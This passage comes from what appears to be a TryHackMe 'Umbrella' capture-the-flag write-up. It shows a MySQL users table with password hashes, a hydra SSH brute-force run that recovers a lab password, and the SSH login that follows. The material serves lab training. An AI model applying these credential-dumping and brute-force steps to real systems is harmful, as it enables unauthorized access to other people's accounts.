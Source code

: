 ```bash
"DB_DATABASE=timetracking"
"LOG_FILE=/logs/tt.log"]
```
{: .nolineno}
{: .nolineno}

Lets login into mysql server :
![Image](Pasted%20image%2020240203135426.png)
Lets access `timetracking` database.
```mysql
MySQL [timetracking]> select * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (1.869 sec)
```
{: .nolineno}
{: .nolineno}
![Image](Pasted%20image%2020240203135810.png)
I got the password cracked so lets use those and see do I have a shell or not .
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Umbrella]
└─$ hydra -L users.txt -P pass.txt ssh://10.10.248.13 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-03 14:02:11
[DATA] max 4 tasks per 1 server, overall 4 tasks, 16 login tries (l:4/p:4), ~4 tries per task
[DATA] attacking ssh://10.10.248.13:22/
[22][ssh] host: 10.10.248.13   login: claire-r   password: Password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-03 14:02:44 
```
{: .nolineno}
{: .nolineno}
I got the result through `hydra` Tool.
Lets have a Shell ->
### SSH Shell ⤵️

```bash
──(kali🔥kali)-[~/Downloads/Tryhackme/Umbrella]
└─$ ssh claire-r@10.10.146.217
The authenticity of host '10.10.146.217 (10.10.146.217)' ca t be established.
ED25519 key fingerprint is SHA256:4O8itcDPWBL0nD2ELrDFEMiWY9Pn8UuEdRRP7L8pxr8.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.146.217' (ED25519) to the list of known hosts.
claire-r@10.10.146.217 is password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0
```